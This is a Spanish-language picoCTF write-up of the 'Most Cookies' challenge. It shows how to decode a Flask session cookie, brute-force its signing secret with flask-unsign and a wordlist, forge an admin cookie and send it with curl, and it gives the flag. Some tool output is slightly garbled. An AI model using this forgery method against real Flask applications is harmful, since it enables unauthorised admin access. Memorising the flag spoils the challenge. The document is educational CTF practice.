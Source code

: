 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)

¡Está bien, basta de usar mi propio cifrado! ¡Las cookies de sesión de Flask deberían ser lo suficientemente seguras!
## Solución
Al ingresar a a la página nos pide ingresar un nombre de una galleta, al hacerlo nos dice que esa galleta es buena pero no especial, al revisar las cookies del sitio encontramos una llamada `session` con el valor `eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-3OxA.BXs3vEpBfBsLhBHfArv5_nfMxcg`,  con el comando `echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-3FMw.hSa8RdlcBu_bFpINNzOBgPJz6Ms | base64 -d`la desciframos y nos dice lo siguiente `{"very_auth":"snickerdoodle"}base64: invalid input` por lo que debemos crear una cookie que mande el valor `"very_auth":"admin"`, para ello usaremos la herramienta `Flask-Unsign`.

Para instalarlo en Ubuntu se uso el siguiente comando `pip3 install flask-unsign[wordlist]` una vez instalado se uso una lista de la galletas aceptadas por el sitio haciendo uso del script `server.py`que se nos dio en la página PicoCTF:
```
sergio_so@DESKTOP-F40822T:~$ cat text.txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```
Y con el siguiente comando se probaron las galletas `flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-3FMw.hSa8RdlcBu_bFpINNzOBgPJz6Ms" --wordlist text.txt`. El resultado fue el siguiente: 
```bash
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
```
Ahora que conocemos la galleta correcta podemos construir la cookie admin, esto se logra con el siguiente comando `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "gingersnap"`, la cookie resultante la mandamos a la pagina con el siguiente comando junto a una expresión regular para solo ver la bandera: `curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session = eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-3OhQ.hFaVq5P7kwHQVU_RyztwnqwaIyQ" | grep -oE "picoCTF{.*?}"`

La bandera es: `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`
## Referencias
https://chatgpt.com
https://github.com/Paradoxis/Flask-Unsign